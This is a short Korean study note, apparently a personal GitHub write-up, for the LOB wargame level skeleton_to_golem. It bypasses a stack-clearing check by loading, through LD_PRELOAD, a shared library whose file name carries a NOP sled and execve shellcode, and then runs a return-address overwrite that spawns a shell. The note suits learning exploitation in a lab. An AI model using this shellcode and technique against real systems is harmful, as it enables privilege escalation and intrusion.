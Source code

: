 #week2  
##lob  
###skeleton_to_golem  
golem.c를 분석하면 stack을 완전히 0으로 초기화시켜버린다.ㅎㅎ  
멘붕와서 2시간 정도 뻘짓하다 검색하기 시작했다.    
이 문제는 공유 라이브러리를 이용해 해결한다는 것을 알게 되었다.  
포너블 관련 발표에서 들어본 거 같다.  
LD_PRELOAD라는 환경 변수가 등록되어 있으면 프로세스가 로딩 시  
LD_PRELOAD에 지정된 라이브러리를 가장 먼저 로딩한다.  
먼저 공유 라이브러리를 만들기 위해 빈 golen.c라는 빈 c 파일을 만들어준다.  
gcc 명령어에 -fPIC와 -shared -o옵션을 사용하여 공유 라이브러리로 컴파일해준다.  
gcc -FPIC -shared -o  $(python -c 'print("\x90"*100+"\x31\xc0\x50\xbe\x2e\x
72\x67\x81\xc6\x01\x01\x01\x01\x56\xbf\x2e\x62\x69\x6e\x47\x57\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")') golen.c  
그런 다음 export 명령어를 통해 shellcode를 이름으로 만든 공유 라이브러리를 LD PRELOAD 환경 변수에 등록해준다.  
이제 golem을 복사한 후 gdb를 연다.  
그리고 strcpy호출이 끝나는 부분에 브레이크 포인트를 걸어주고 공유 라이브러리의 주소를 얻는다.  
이때 공유 라이브러리의 주소는 스텍 영역보다 낮은 곳에 저장되기에 x/100x $ebp-2000쯤 해준다고 한다.  
이제 알아낸 주소를 통해 bash를 확인 가능하다.  
 ./golem $(python -c 'print("\x90"*44+"\xc8\xf5\xff\xbf")')  
이 문제를 풀면서 writeup을 따라하게 되었다.    
아마 여기서부터의 문제는 2회독 정도를 더 해야할 듯하다.  
